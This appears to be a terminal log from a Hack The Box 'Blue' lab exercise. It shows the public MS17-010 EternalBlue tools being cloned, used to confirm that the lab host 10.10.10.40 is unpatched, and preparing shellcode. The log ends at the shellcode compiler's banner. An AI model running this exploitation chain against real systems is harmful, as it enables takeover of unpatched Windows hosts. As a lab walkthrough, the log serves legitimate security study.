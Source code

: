 root@kali:~/HTB/BLUE# git clone https://github.com/worawit/MS17-010.git
Clonando en 'MS17-010'...
remote: Enumerating objects: 183, done.
remote: Total 183 (delta 0), reused 0 (delta 0), pack-reused 183
Recibiendo objetos: 100% (183/183), 113.61 KiB | 548.00 KiB/s, listo.
Resolviendo deltas: 100% (102/102), listo.


root@kali:~/HTB/BLUE/MS17-010# python checker.py 10.10.10.40
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_ACCESS_DENIED
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: STATUS_ACCESS_DENIED





root@kali:~/HTB/BLUE# git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
Clonando en 'AutoBlue-MS17-010'...
remote: Enumerating objects: 126, done.
remote: Counting objects: 100% (50/50), done.
remote: Compressing objects: 100% (43/43), done.
remote: Total 126 (delta 28), reused 13 (delta 6), pack-reused 76
Recibiendo objetos: 100% (126/126), 109.65 KiB | 802.00 KiB/s, listo.
Resolviendo deltas: 100% (68/68), listo.
root@kali:~/HTB/BLUE# 
root@kali:~/HTB/BLUE# cd AutoBlue-MS17-010/
root@kali:~/HTB/BLUE/AutoBlue-MS17-010# ls
eternalblue_exploit10.py  eternalblue_exploit8.py  LICENSE           mysmb.py   requirements.txt  zzz_exploit.py
eternalblue_exploit7.py   eternal_checker.py       listener_prep.sh  README.md  shellcode
root@kali:~/HTB/BLUE/AutoBlue-MS17-010# python eternal_checker.py 10.10.10.40
[*] Target OS: Windows 7 Professional 7601 Service Pack 1
[!] The target is not patched
=== Testing named pipes ===
[*] Done
root@kali:~/HTB/BLUE/AutoBlue-MS17-010#



root@kali:~/HTB/BLUE/AutoBlue-MS17-010/shellcode# ls
eternalblue_kshellcode_x64.asm  eternalblue_kshellcode_x86.asm  eternalblue_sc_merge.py  shell_prep.sh
root@kali:~/HTB/BLUE/AutoBlue-MS17-010/shellcode# ./shell_prep.sh 
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler
